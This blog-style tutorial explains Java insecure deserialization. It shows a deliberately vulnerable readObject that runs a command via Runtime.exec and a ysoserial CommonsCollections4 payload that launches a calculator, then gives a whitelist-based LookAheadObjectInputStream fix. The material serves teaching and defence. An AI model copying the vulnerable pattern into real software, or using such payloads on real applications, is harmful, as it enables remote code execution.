



Insecure deserialization got in [OWASP top 10](https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization) in 2017 as most of web applications written in Java and .net where found vulnerable and in most of the scenarios the vulnerabilities got to Remote Code Execution (RCE)

So lets see how this vulnerability works, how to exploit it and how to prevent it.

### Deserialization in Java and the Read Object

```java
package org.securitywhitepapers.deserialization;

import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.logging.Level;
import java.util.logging.Logger;
import ysoserial.payloads.ObjectPayload;

public class Main {

    private static String serializedFile = "serialized.bin";
    
    public static void main(String[] args) {

        try {
            //serialize an user object
            User u = new User("Whitepapers");
            serialize(u);
            
            //and this triggers the vulnerability
            u = (User)deserialize(serializedFile);
        } 
        catch (Exception ex) {
            Logger.getLogger(Main.class.getName()).log(Level.SEVERE, null, ex);
        }
    }
    
    private static Object deserialize(Object o)
    {
        FileInputStream fileIn = null;
        ObjectInputStream in = null;
        try 
        {
            fileIn = new FileInputStream(serializedFile);
            in = new ObjectInputStream(fileIn);
            return in.readObject();
        } 
        catch (FileNotFoundException ex) {
            Logger.getLogger(Main.class.getName()).log(Level.SEVERE, null, ex);
        } 
         catch (IOException | ClassNotFoundException ex) {
            Logger.getLogger(Main.class.getName()).log(Level.SEVERE, null, ex);
        } 
        finally {
            try {
                fileIn.close();
                in.close();
            } catch (IOException ex) {
                Logger.getLogger(Main.class.getName()).log(Level.SEVERE, null, ex);
            }
        }
        
        return null;
    }
    
    private static void serialize(Object o)
    {
        try {

            FileOutputStream fileOut = new FileOutputStream(serializedFile);
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(o);
            out.close();
            fileOut.close();
        } 
        catch (IOException ex){
            Logger.getLogger(Main.class.getName()).log(Level.SEVERE, null, ex);
        } 
   }
}
```

In this small example we are creating an object of type User, serialize it and deserialize it.  
And this is an exploitable implementation.

In java when you implement a Serializable class, Java looks for a method called readObject in it, and if it exists the method will be called (have in mind that a constructor is not called in a deserialization)

**Lets see this in action:**

This is the code of the User class

```java
package org.securitywhitepapers.deserialization;

import java.io.IOException;
import java.io.ObjectInputStream;

public class User implements java.io.Serializable {

    private String username;

    public User() {
        System.out.println("Constructor called");
    }
    public User(String username) {
        this.username = username;
    }

    public String getUsername() {
        return username;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        System.out.println("ReadObject Called");
    }
}
```

And when the above code runs this is what is printed in the console:

[](images/image-6-1.png)

So as we have seen the readObject was called, and the constructor wasn't.  
The readObject method is the main reason for unsafe deserialization.  
So I created another class, UnsafeObject with the following code:

```java
package org.securitywhitepapers.deserialization;

import java.io.IOException;

public class UnsafeObject implements java.io.Serializable {
    String command;

    public UnsafeObject(String command) {
        this.command = command;
    }

    public String getCommand() {
        return command;
    }

    public void setCommand(String command) {
        this.command = command;
    }
    
    
    
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
        Runtime.getRuntime().exec(command);
    }
}
```

### Exploiting Unsafe Deserialization

Now if you accept this object serialized, and an attacker sends a malicious crafter payload where the command invokes "calc.exe" this will run and a calculator will open.

This can be much more serious and instead of opening a calculator it can open a reverse meterpreter session and have control over the machine.

Ok, so you're thinking: Yeah, right, and why the hell would anyone do this?

Well, it doesn't need to. A more complex code on readObject could call/instanciate other object, or even use reflection, and through chaining multiple object declarations an attacker could get a flow from a readObject to the Runtime.getRuntime().exec, and a manipulated argument

And now I hear you saying: Thats still not that usual.  
And... it is.

Unfortunately there are a few known libraries, and used in a lot (really, a lot) of Java web applications, that have this flows. So if you use one of them, the objects are loaded in the application classpath, so you are vulnerable, just by having them, since a deserialization can deserialize to any object in the classpath by default.

A tool called [ysoserial](https://github.com/frohoff/ysoserial) is known for generating payloads for this vulnerable libraries, and it has options for apache's commons-collections, groovy, javassist, spring-core and more.

Lets try it out. You can download the jar file and generate a payload through the command line, or you can use it in a project (with maven for example), I'm going with the second one for this scenario.

So lets change the Main method, to generate a ysoserial payload to open calculator, replace the user serialized object by the payload, and deserialize it

```java
public static void main(String[] args) {  
    try {
        //serialize an user object
        User u = new User("Whitepapers");
        serialize(u);
        
        //create a malicious payload. The application will read it thinking it is secure
        ObjectPayload op = new ysoserial.payloads.CommonsCollections4();
        Object payload = op.getObject("calc");
        serialize(payload);
        
        //and this triggers the vulnerability
        u = (User)deserialize(serializedFile);    
    } 
    catch (Exception ex) {
        Logger.getLogger(Main.class.getName()).log(Level.SEVERE, null, ex);
    }
}
```

And this is the outcome:

[](images/image-7-1-1024x530.png)

As you can see in the printscreen, an exception was thrown, but the code has already run .

Have in mind that you are not only vulnerable if you use one of the known libraries in ysoserial or other tools, but you are vulnerable if you do deserialization without taking precautions.

RCE is the worst scenario (if you do notuse one of those libraries), and even you code can lead to that.

Lets see another way in.

If you create a static block on a class that is going to be deserialized, this code will run, and this can also be a way to exploit the vulnerability:

[](images/image-8-1.png)

### Protecting your code

The problem with the way java deserializes objects is that it stores in the serialized file the type of the object to be deserialized. This is how an attacker can get to the Apache Commons library for example. So we need to fixed that.

The way to do this is to create a whitelist, and only allow java to deserialize the classes that you want.

You need to override the ObjectInputStream Class so that when checking the type of an object it only allows specific classes:

```java
package org.securitywhitepapers.deserialization;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.ArrayList;

public class LookAheadObjectInputStream extends ObjectInputStream {

    ArrayList<String> allowedTypes;
    
    public LookAheadObjectInputStream(InputStream inputStream) throws IOException {
        super(inputStream);
        allowedTypes = new ArrayList<>();
        allowedTypes.add(Project.class.getName());
        allowedTypes.add(User.class.getName());
    }

    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {

        if (!allowedTypes.contains(desc.getName())) 
            throw new InvalidClassException("Unauthorized deserialization attempt", desc.getName());
        
        return super.resolveClass(desc);
    }
}
```

In this example we just created LookAheadObjectInputStream that extends ObjectInputStream and in resolveClass method we check if the class to be deserialized is in the whitelist allowedTypes

Now if you try to deserialize the generated payload you get an error, but no calculator:

[](images/image-9-1.png)

Btw the static block does not run either.

Have in mind that this does not fix bad code. If you execute a command from a serialized class, in the readObject this won't help you. Be carefull with what you do with serializable objects.

Best approach is really not to use serialization. If you need to store data in an Json file, for example, and construct objects based on the values :)
